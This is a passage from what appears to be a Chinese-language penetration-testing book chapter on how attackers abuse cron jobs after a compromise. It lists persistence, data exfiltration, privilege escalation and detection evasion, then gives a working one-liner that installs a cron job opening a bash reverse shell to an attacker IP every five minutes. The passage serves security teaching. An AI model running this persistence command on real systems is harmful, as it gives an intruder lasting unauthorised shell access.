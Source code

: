 ```
 30 3 * * * /path/to/script.sh
```

要查看现有的 cron 作业，可以使用 **crontab -** **l** 命令。

对于渗透测试者来说，cron 作业在后期利用和维持访问中非常重要，原因有很多：

+   **持久性** : 攻击者可以使用 cron 作业通过安排任务来保持对被攻破系统的访问，这些任务会重新建立连接或下载更新的恶意软件。

+   **数据外泄** : 可以设置 cron 作业定期将敏感数据从受损系统发送到攻击者控制的服务器。

+   **权限提升** : 如果攻击者能够创建或修改以 root 或其他特权用户身份运行的 cron 作业，他们可能会在系统上提升自己的权限。

+   **后门维护** : cron 作业可以定期检查并修复任何可能被删除或禁用的后门。

+   **避开检测** : 通过在特定时间安排恶意活动，攻击者可以通过在系统管理员不太可能监控系统的时间执行操作，从而避开检测。

+   **自动化侦察** : 攻击者可以利用 cron 作业定期收集关于系统或网络的信息，帮助他们规划进一步的攻击或识别新的漏洞。

cron 作业可以通过安排恶意命令来维持持久性。以下是一个示例：

```
 $ echo "*/5 * * * * /bin/bash -c 'bash -i >& /dev/tcp/192.168.56.101/5555 0>&1'" | crontab -
```

这会创建一个 cron 作业，每 5 分钟尝试建立一个反向 Shell 连接。

其工作原理如下：

+   **echo** : 这将添加一个新的 cron 作业。

+   ***/5 * * * *** : 这将设置每 5 分钟执行一次任务。

    该命令创建一个反向 shell（根据需要更改 IP 地址和端口）。

+   **| crontab -**：这会安装新的 crontab。

让我们看看实际操作。在目标系统上，我们执行命令来创建 cron 任务，接着立刻执行列出所有 cron 任务的命令。在 Kali 系统上，5 分钟内，我们就能得到 shell。以下截图展示了这一过程；下面的截图显示了在目标系统上已执行的命令：

![图 12.6 – 我们在目标系统上创建 cron 任务以实现持久性](img/B22229_12_06.jpg)

图 12.6 – 我们在目标系统上创建 cron 任务以实现持久性

下图展示了我们在 Kali 上接收到反向 shell：
